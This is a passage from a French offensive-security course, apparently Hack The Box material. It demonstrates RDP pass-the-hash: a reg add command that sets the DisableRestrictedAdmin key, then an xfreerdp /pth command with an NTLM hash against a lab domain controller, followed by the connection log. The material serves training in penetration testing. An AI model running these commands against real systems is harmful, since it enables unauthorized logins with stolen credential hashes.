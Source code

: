 ![rdp_session-4.png](../../ressource/rdp_session-4-error.png)

Cela peut être activé en ajoutant une nouvelle clé de registre DisableRestrictedAdmin (REG_DWORD) sous HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa. Cela peut être fait en utilisant la commande suivante :
```
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Une fois la clé de registre ajoutée, nous pouvons utiliser `xfreerdp` avec l'option `/pth` pour obtenir un accès RDP :

Détournement de session RDP

```
dsgsec@htb[/htb]# xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9

[09:24:10:115] [1668:1669] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex réinitialisant l'état d'erreur
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - chargement de channelEx rdpdr
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - chargement de channelEx rdpsnd
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - chargement de channelEx cliprdr
[09:24:11:427] [1668:1669] [INFO][com.freerdp.primitives] - détection automatique des primitives, en utilisant optimisé
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex état d'erreur de réinitialisation
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex réinitialisation de l'état d'erreur
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - Échec de la vérification du certificat 'certificat auto-signé (18)' à la position de pile 0
[09:24:11:464] [1668:1669] [AVERTISSEMENT][com.freerdp.crypto] - CN = dc-01.superstore.xyz
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - VERSION ={
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - ProductMajorVersion : 6
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - ProductMinorVersion : 1
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - ProductBuild : 7601
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - Réservé : 0x000000
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - NTLMRevisionCurrent : 0x0F
[09:24:11:567] [1668:1669] [INFO][com.winpr.sspi.NTLM] - negociationFlags "0xE2898235"

<SNIP>

```
